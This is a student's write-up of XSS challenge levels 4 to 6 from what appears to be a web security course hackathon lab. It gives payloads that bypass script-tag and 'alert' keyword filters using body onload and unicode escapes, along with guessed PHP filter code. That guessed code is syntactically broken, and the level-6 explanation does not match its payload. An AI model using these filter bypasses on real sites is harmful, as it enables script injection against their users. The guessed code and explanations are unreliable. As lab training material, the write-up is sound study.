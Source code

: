 **Level-4**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php
- At level-4 the  <Script> tag directly  filtered  and broken,it has utilised the functions onload() of the body tag to perform the XSS script.By combiningbthe script with that function it triggers the alert when loading is finished.
-Attacking Script:
   "?input= <body onload=alert('Level-4 Hacked by Sai Kumar Gadde')>hacked</body>"

Guess Source Code:
- source code : ` Guessing source code `
```
	
		
```

![level-4](images/head.png)

**Level-5**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php
- At this particular level-5,security measures are implemented,filtering out both the script tag and the alert function.To bypass these restrictions and trigger a popup alert, a combination of unique encoding and onload() method and body tag is used.This allows for execution of javascriptcode indirectly. 

-Attacking Script:
   ?input= <body onload="\u0061lert('Level-5 Hacked by Sai Kumar Gadde')">hacked</body>

- Guess Source Code:
- source code: `Guessing source code`
```
   $input =  $_GET['input']
		if (preg_match('/<script\b[^>]*>(.*?')<\/script>/is',$data) || stripos($data 'alert')!== false) {
			exit('{"error": "No \'script\' is allowed!"}');
		}
		else
			echo($input);

![Level-5](images/head.png)

**Level-6**
- URL: http://waph-hackathon.eastus.cloudapp.azure.com/xss/level6/echo.php
- The above Ur; utilizes htmlentities() to convert user input into HTML entities,displaying it as text.JavaScript event listeners,like onclick(),trigger alerts on key presses within the input field,enabling javascript execution while maintaining user input as plain text for security.
Attacking Script:
   ?input= <body onload="\u0061lert('Level-6 Hacked by Sai Kumar Gadde')">hacked</body>
Guess Source Code:
- source code: `Guessing source code`
```
   echo htmlentities($_REQUEST('input'))  ;
```

![level-6](images/head.png)

![level-6-1](images/head.png)

## Task

   








